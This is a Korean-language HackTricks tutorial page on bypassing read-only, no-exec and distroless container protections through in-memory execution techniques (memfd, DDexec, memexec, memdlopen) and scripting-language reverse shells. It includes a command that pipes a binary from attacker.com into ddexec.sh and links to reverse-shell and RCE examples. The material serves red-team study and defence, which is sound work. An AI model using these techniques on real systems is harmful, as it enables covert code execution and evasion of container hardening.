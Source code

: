 # FS 보호 기능 우회: 읽기 전용 / 실행 불가 / Distroless

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)를 통해 AWS 해킹을 처음부터 전문가까지 배우세요</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [telegram 그룹](https://t.me/peass)에 **가입**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하고 싶다면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소로 PR을 제출하세요.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있고 해킹할 수 없는 것을 해킹하고 싶다면 - **채용 중**! (_유창한 폴란드어 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

## 비디오

다음 비디오에서는 이 페이지에서 언급된 기술에 대해 더 자세히 설명된 내용을 찾을 수 있습니다:

* [**DEF CON 31 - 은밀하고 회피를 위한 Linux 메모리 조작 탐색**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 메모리 dlopen()을 사용한 은밀한 침입 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 읽기 전용 / 실행 불가 시나리오

특히 컨테이너에서 **읽기 전용 (ro) 파일 시스템 보호**로 마운트된 리눅스 머신을 더 많이 찾을 수 있습니다. 이는 `securitycontext`에서 **`readOnlyRootFilesystem: true`**를 설정하는 것만으로 쉽게 ro 파일 시스템을 사용하여 컨테이너를 실행할 수 있기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 ro로 마운트되어 있더라도 **`/dev/shm`**은 여전히 쓰기 가능하므로 디스크에 아무것도 쓸 수 없는 것은 가짜입니다. 그러나 이 폴더는 **실행 불가 보호**로 마운트되므로 여기에 바이너리를 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
적색팀 관점에서는 시스템에 이미 없는 바이너리(백도어 또는 `kubectl`과 같은 열거자)를 **다운로드하고 실행하는 것이 복잉잡해집니다**.
{% endhint %}

## 가장 쉬운 우회: 스크립트

바이너리를 언급했지만, 머신 내에 해석기가 있으면 **해당 머신 내에 해석기가 있는 한 스크립트를 실행**할 수 있습니다. 예를 들어 `sh`가 설치되어 있다면 **쉘 스크립트**를 실행하거나 `python`이 설치되어 있다면 **파이썬 스크립트**를 실행할 수 있습니다.

그러나 이것만으로는 바이너리 백도어나 실행해야 할 다른 바이너리 도구를 실행할 수 없을 수 있습니다.

## 메모리 우회

파일 시스템이 실행을 허용하지 않더라도 바이너리를 실행하려면 **메모리에서 실행**하는 것이 가장 좋습니다. 왜냐하면 **보호 기능이 적용되지 않기 때문**입니다.

### FD + exec 시스템 호출 우회

머신 내에 **Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 있는 경우, 메모리에서 실행할 바이너리를 다운로드하고, 이를 메모리 파일 디스크립터에 저장한 다음 (**`create_memfd` 시스템 호출**), 이러한 보호 기능에 의해 보호되지 않는 **fd를 파일로 실행**하는 **`exec` 시스템 호출**을 호출할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 이 프로젝트에 바이너리를 전달하면 **바이너리를 압축하고 b64로 인코딩**한 스크립트를 생성하여 `create_memfd` 시스템 호출을 통해 만든 **fd에 디코딩 및 압축 해제**하는 지침이 포함된 지정된 언어의 스크립트를 생성합니다.

{% hint style="warning" %}
PHP 또는 Node와 같은 다른 스크립팅 언어에서는 스크립트에서 **원시 시스템 호출을 호출하는 기본 방법**이 없기 때문에 이 방법이 작동하지 않습니다. 따라서 `create_memfd`를 호출하여 바이너리를 저장할 **메모리 fd**를 만들 수 없습니다.

또한 `/dev/shm`에 파일이 있는 **일반 fd**를 만들어도 **실행할 수 없습니다**. 왜냐하면 **실행 불가 보호**가 적용되기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)는 **자체 프로세스 메모리를 수정**하여 **`/proc/self/mem`**을 덮어쓰는 기술로, **프로세스가 실행하는 어셈블리 코드를 제어**하여 **쉘코드**를 작성하고 프로세스를 **임의의 코드를 실행하도록 변이**할 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**를 사용하면 **자체 쉘코드** 또는 **메모리**에서 **임의의 코드**를 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec)은 DDexec의 자연스러운 다음 단계입니다. **DDexec 셸코드를 데몬화**한 것으로, **다른 이진 파일을 실행**하려는 경우에 DDexec을 다시 시작할 필요가 없습니다. 대신 DDexec 기술을 통해 memexec 셸코드를 실행한 다음 **이 데몬과 통신하여 새로운 이진 파일을 전달하고 실행**할 수 있습니다.

**memexec를 사용하여 PHP 역쉘에서 이진 파일을 실행하는 예제**는 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 찾을 수 있습니다.

### Memdlopen

DDexec과 유사한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 이진 파일을 로드하여 나중에 실행하는 더 쉬운 방법**을 제공합니다. 이를 통해 종속성이 있는 이진 파일을 로드할 수도 있습니다.

## Distroless Bypass

### Distroless란

Distroless 컨테이너에는 특정 응용 프로그램이나 서비스를 실행하는 데 필요한 **최소한의 구성 요소만 포함**되어 있습니다. 패키지 관리자, 셸 또는 시스템 유틸리티와 같은 큰 구성 요소는 제외됩니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거**함으로써 컨테이너의 공격 표면을 줄이고 악용될 수 있는 취약점의 수를 최소화하는 것입니다.

### 역쉘

Distroless 컨테이너에서는 보통 `sh`나 `bash`와 같은 일반적인 셸을 얻을 수 없을 수 있습니다. 또한 `ls`, `whoami`, `id`와 같은 이진 파일도 찾을 수 없습니다. 이는 일반적인 시스템에서 실행하는 모든 것들입니다.

{% hint style="warning" %}
따라서 보통 하는 것처럼 **역쉘을 얻거나** 시스템을 **열거할 수 없을 것**입니다.
{% endhint %}

그러나 kompromised 컨테이너가 예를 들어 flask 웹을 실행 중이라면 python이 설치되어 있으므로 **Python 역쉘**을 얻을 수 있습니다. Node를 실행 중이라면 Node 역쉘을 얻을 수 있고, 대부분의 **스크립팅 언어**도 마찬가지입니다.

{% hint style="success" %}
스크립팅 언어를 사용하여 언어 기능을 활용하여 시스템을 **열거**할 수 있습니다.
{% endhint %}

**`read-only/no-exec`** 보호 기능이 없는 경우에는 역쉘을 악용하여 **파일 시스템에 이진 파일을 작성**하고 **실행**할 수 있습니다.

{% hint style="success" %}
그러나 이러한 종류의 컨테이너에서는 일반적으로 이러한 보호 기능이 존재하지만, **이를 우회하기 위해 이전 메모리 실행 기술을 사용**할 수 있습니다.
{% endhint %}

**RCE 취약점을 악용하여 스크립팅 언어 역쉘을 얻고 메모리에서 이진 파일을 실행하는 방법**에 대한 **예제**는 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 찾을 수 있습니다.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

**해킹 경력**에 관심이 있다면 해킹할 수 없는 것을 해킹하고 싶다면 - **채용 중입니다!** (_유창한 폴란드어 필수_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>**htARTE (HackTricks AWS Red Team Expert)**로부터 AWS 해킹을 제로부터 전문가까지 배우세요</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에 광고하거나 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
